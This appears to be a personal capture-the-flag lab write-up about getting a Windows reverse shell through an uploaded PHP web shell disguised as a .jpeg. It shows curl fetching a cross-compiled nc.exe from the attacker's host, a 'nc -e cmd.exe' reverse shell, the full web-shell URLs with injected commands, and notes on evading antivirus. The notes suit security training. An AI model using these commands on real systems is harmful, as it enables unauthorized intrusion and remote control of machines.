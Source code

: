 
Now we have a shell payload which for the time being is not detected by the AV so will compile it using netcat and reverse shell

We have serveral options:
- PowerShell but it may get detected
- PHP reverse shell it may also get picked up
- Msfvenom may generate a distinctive we could use [Veil Framework](https://www.veil-framework.com/) or Shelter
- Uploading netcat is the quickest and easy option.


What is cross-compilation techniques ?_?
The idea is to compile source code into a working program to run on a different platform.
It's an cross compilation skill although in many ways it's preferable to avoid it.

Always try to compile code into an environment as close to the target environment as possible.
Cross-compile x64 windows programs on kali using the mingw-64 package.

It's a big package but just like gcc used to compile binaries on Linux, we can use the mingw compilers to compile windows binaries.

Will run make to build the binary the correct compiler will be used to generate a x64 windows
executable. Note there will be a lot of warnings generated by the compiler.

We have to download the nc.exe from the github and compile it on kali linux.
https://github.com/int0x33/nc.exe/
```
CC=x86_64-w64-mingw32-gcc
```

MakeFile:
![[Pasted image 20240114204304.png]]


Package:
```
sudo apt install mingw-w64
```

![[Pasted image 20240114204927.png]]

Note we have to remove or mv the already compiled binary in order for this to get working.


```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=certutil.exe
```
![[Pasted image 20240120233910.png]]
![[Pasted image 20240114230338.png]]

Cert-util is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

```
python3 -m http.server 80
```

As the curl command returned nothing when we were running it on the command line but
```
curl http://10.50.86.241/nc.exe -o c:\\windows\\temp\\nc-sardarji.exe
```
![[Pasted image 20240114231420.png]]

Now we have everything we want for a reverse shell
So will set up a listner and we are good to go
```
nc -lvnp 4242
```

```
powershell.exe c:\\windows\\temp\\nc-sardarji.exe 10.50.86.241 4242 -e cmd.exe
```

The site got hung which means we got a shell
![[Pasted image 20240114231903.png]]

_**Note:** In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early._

```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-sardarji.exe%2010.50.86.241%204242%20-e%20cmd.exe
```

I forgot to upload the nc.exe through the curl and was trying to get the reverse shell as a result there was nothing to trigger to get the shell so i got to know where i was doing the mistake.

<hr>

Let's try with the Msfvenom payload and see it's get picked by the AV and what kind of error we get cuz i the real PT situation this what's going to happen.

![[Pasted image 20240121000638.png]]

```
curl http://10.50.86.241/shell.exe -o c:\\windows\\temp\\sardarji-shell.exe
```
![[Pasted image 20240121001603.png]]

```
powershell.exe c:\\windows\\temp\\sardarji-shell.exe 10.50.86.241 4242 -e cmd.exe
```

![[Pasted image 20240121001723.png]]

This is the output we got and in return no shell the AV might deleted the file let's try to access the file and see if it's there or not from the reverse shell that we got.
